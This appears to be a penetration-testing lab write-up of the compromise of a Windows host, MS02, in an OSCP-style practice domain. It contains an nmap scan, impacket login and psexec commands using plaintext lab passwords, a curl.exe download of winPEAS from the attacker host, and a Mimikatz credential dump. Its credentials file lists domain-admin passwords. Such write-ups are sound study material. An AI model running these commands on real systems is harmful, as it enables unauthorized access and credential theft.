





# MS02

## Enumeration

Output from Nmap TCP connect scan [run earlier](ms01.md#internal-network-enumeration):


```
Nmap scan report for ms02.oscp.exam (10.10.162.154)
Host is up (0.041s latency).
Not shown: 65521 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2024-09-10T02:52:41+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-03-28T18:13:10
|_Not valid after:  2054-03-28T18:13:10
| ms-sql-ntlm-info: 
|   10.10.162.154:1433: 
|     Target_Name: OSCP
|     NetBIOS_Domain_Name: OSCP
|     NetBIOS_Computer_Name: MS02
|     DNS_Domain_Name: oscp.exam
|     DNS_Computer_Name: MS02.oscp.exam
|     DNS_Tree_Name: oscp.exam
|_    Product_Version: 10.0.19041
| ms-sql-info: 
|   10.10.162.154:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 2.1.X (85%)
OS CPE: cpe:/o:ibm:zos:2.1
Aggressive OS guesses: IBM z/OS 2.1 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-09-10T02:52:02
|_  start_date: N/A
|_nbstat: NetBIOS name: MS02, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:bf:89:e3 (VMware)
```


### MSSQL

I find that my `web_svc` user has access to MSSQL but the account cannot use `xp_cmdshell` nor does it have adequate permissions to use `enable_xp_cmdshell`.

```bash
impacket-mssqlclient oscp.exam/web_svc:'Diamond1'@ms02.oscp.exam -windows-auth
```

<figure><figcaption><p>Access to MSSQL</p></figcaption></figure>

<figure><figcaption><p>No xp_cmdshell</p></figcaption></figure>

This does not leave me a ton of options on this port unless I can find some other credentials. I have the NTLMv2 hash for sql\_svc but I could not crack it and there is no good way to forward the request.

I also attempted to steal the service's hash with [this technique](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack). The xp\_dirtree command was able to execute but did not have the desired effect. Unfortunately my responder session was not reachable by MS02. To rectify that I attempted to add a port forward to my ligolo-ng session on MS01. I could not do this because I needed the forward on port 445 but that port is already being used by the actual SMB service on MS01.

For now I abandon this train.

## Foothold

Initial access ends up being provided by local Administrator credentials [found on `MS01`](ms01.md#powershell-history):


```bash
impacket-psexec Administrator:'hghgib6vHT3bVWf'@ms02.oscp.exam
```


* `evil-winrm` could be used too but I still have a sour taste in my mouth from the trouble it caused me during Privilege Escalation on `MS01`

This provides access as `SYSTEM`:

<figure><figcaption><p>SYSTEM access with PsExec</p></figcaption></figure>

Privilege escalation is unnecessary.

## Post-Exploit

### Re-Enumeration

In the interest of building this habit I immediately run PEAS with my elevated permissions. First I download a copy with the port forward set up in the last step:


```
START /b curl.exe -k https://10.10.xxx.153:8443/.../winPEASx64.exe -o peas.exe
```


Then I run it with the command:

```
START /b peas.exe -a quiet log=ms02_system.peas
```

While this runs in the background I start other things.

### Mimikatz

The other tool I immediately download is Mimikatz. Once it is loaded I fire it up with the command:

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

This is where it ends. The first entry is the domain admin ( `OSCP\Administrator`). It includes both the hash and plaintext password:

<figure><figcaption><p>Domain Admin Credentials Leaked</p></figcaption></figure>

I validate this with CME:

<figure><figcaption><p>Validating Domain Admin Credentials</p></figcaption></figure>

Then I add it to the final version of my `creds.txt` file for the domain:


```
---------------------------------------------------  DOMAIN CREDENTIALS  ----------------------------------------------------

OSCP.EXAM\web_svc       Diamond1            Kerberoasted and cracked
OSCP.EXAM\Administrator 7Tg9M9MZbzAokR9     Mimikatz on MS02


----------------------------------------------------  OTHER CREDENTIALS  ----------------------------------------------------

MS01\support        Freedom1        Provides SSH/WinRM access to MS01 as local user "support"
MS02\Administrator  hghgib6vHT3bVWf Found in Adminstrator's PSReadline history on MS01
```


I now head off to `DC01` to finish up the domain portion of the lab.
